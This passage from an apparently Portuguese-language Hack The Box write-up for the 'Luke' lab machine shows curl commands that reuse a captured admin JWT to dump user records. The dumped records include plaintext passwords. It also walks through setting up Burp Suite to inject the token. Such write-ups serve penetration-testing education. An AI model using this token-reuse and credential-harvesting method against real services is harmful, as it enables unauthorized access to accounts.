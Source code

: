 `curl -s http://10.10.10.137:3000/users -H 'Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTk2NDk4OTA2LCJleHAiOjE1OTY1ODUzMDZ9.puPPSvixp1jtzp-VmXMiNRI3PhAXu26zmN37KRmorNk' | jq`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_web12.png)

Podemos assim extrair todas as informações que queremos

`for user in admin derry yuri dory; do curl http://10.10.10.137:3000/users/${user} -H "Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTk2NDk4OTA2LCJleHAiOjE1OTY1ODUzMDZ9.puPPSvixp1jtzp-VmXMiNRI3PhAXu26zmN37KRmorNk"; echo; done`

```
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_web13.png)

### Utilizando BurpSuite

Também conseguimos fazer esse trabalho pelo BurpSuite, não seria necessário, mas vou demonstrar pra fins de documentação e aprendizagem

Vamos em Extender → BApp Store → Add Custom Header → Install

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_Burp.png)

Add Custom Header - Adicionamos o Token obtido no Curl no Hard Coded Value

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_Burp1.png)

Project Options → Sessions → Add → Details → Add → Invoke a Burp Extension → Invoke the Extension Handler

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_Burp2.png)

Em Tools Scope clicamos para ativar o Proxy (Use With Caution)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_b.png)

Na aba Scope clicamos em Add e ficará assim

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_Burp3.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_Burp4.png)

Agora deixamos o `Intercept is Off`, ativamos a extensão pras requisições passarem pelo BurpSuite e, quando atualizamos a página, temos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_Burp5.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-luke/L_Burp6.png)
